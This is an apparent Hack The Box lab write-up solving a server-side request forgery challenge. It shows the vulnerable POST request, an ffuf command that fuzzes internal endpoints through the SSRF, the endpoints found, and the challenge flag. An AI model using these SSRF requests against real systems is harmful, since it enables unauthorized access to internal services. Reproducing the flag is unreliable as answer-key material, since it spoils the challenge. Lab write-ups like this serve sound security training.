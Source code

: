 ## Challenge
Exploit the SSRF vulnerability to identify an additional endpoint. Access that endpoint to obtain the flag.

## Solution

On the page there is a function to check the availability of a date, and that request is as follows:

```http
POST /index.php HTTP/1.1
Host: 10.129.132.5
Content-Length: 65
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://10.129.132.5
Referer: http://10.129.132.5/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

dateserver=http://dateserver.htb/availability.php&date=2024-01-01
```

I send another request to the `//dateserver.htb/invalid.php` and see it it got the error message:

```sh
Server at dateserver.htb Port 80
```

Now I use `ffuf` to check for more internal endpoints that we can reach - and filter the error message.

```sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.132.5/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"

```

Two of the endpoints found are:

```sh
admin                   [Status: 200, Size: 361, Words: 55, Lines: 16, Duration: 4395ms]
availability            [Status: 200, Size: 11, Words: 1, Lines: 1, Duration: 117ms]
```

Let's try to reach `admin.php`.

In the response we have the flag which is:

`HTB{61ea58507c2b9da30465b9582d6782a1}`